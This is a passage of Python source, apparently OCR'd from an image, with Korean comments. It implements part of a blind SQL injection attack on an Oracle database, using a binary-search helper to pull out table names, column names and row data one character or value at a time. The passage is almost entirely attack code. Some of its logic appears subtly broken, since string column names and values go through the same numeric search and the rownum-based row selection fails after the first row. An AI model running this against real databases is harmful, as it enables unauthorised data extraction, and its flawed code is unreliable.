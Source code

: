 # 2. 각 테이블의 이름 길이와 이름 추출
tables = []
for queryCount in range(1, count + 1):
    length_query = f"select length(table_name) from (select table_name, rownum as ln from user_tables) where ln = {queryCount}"
    length = binarySearch(length_query)
    print(f"1-2-1. {queryCount} 번째 테이블 명의 문자열 길이: {length} 글자")

    # 테이블 이름 추출
    table_name = ""
    for char_position in range(1, length + 1):
        char_query = f"select ascii(substr(table_name, {char_position}, 1)) from (select table_name, rownum as ln from user_tables) where ln = {queryCount}"
        ascii_value = binarySearch(char_query)
        table_name += chr(ascii_value)
    tables.append(table_name)
    print(f"1-2-2. {queryCount} 번째 테이블 이름: {table_name}")

# 3. 각 테이블의 내용 추출
for table in tables:
    print(f"\n{table} 테이블 내용:")
    
    # 각 테이블의 열 개수 확인
    column_count_query = f"select count(column_name) from user_tab_columns where table_name = '{table}'"
    column_count = binarySearch(column_count_query)
    print(f"  열 개수: {column_count}")

    # 각 열의 이름과 데이터 추출
    for column_index in range(1, column_count + 1):
        # 각 열 이름 추출
        column_name_query = f"select column_name from user_tab_columns where table_name = '{table}' and column_id = {column_index}"
        column_name = binarySearch(column_name_query)
        print(f"  열 {column_index} 이름: {column_name}")

        # 각 열의 데이터 개수 확인
        data_count_query = f"select count(*) from {table}"
        data_count = binarySearch(data_count_query)
        print(f"  {table} 테이블의 데이터 개수: {data_count}")

        # 각 데이터 추출
        for row_index in range(1, data_count + 1):
            data_query = f"select {column_name} from {table} where rownum = {row_index}"
            data_value = binarySearch(data_query)
            print(f"    {column_name}의 {row_index} 번째 데이터: {data_value}")

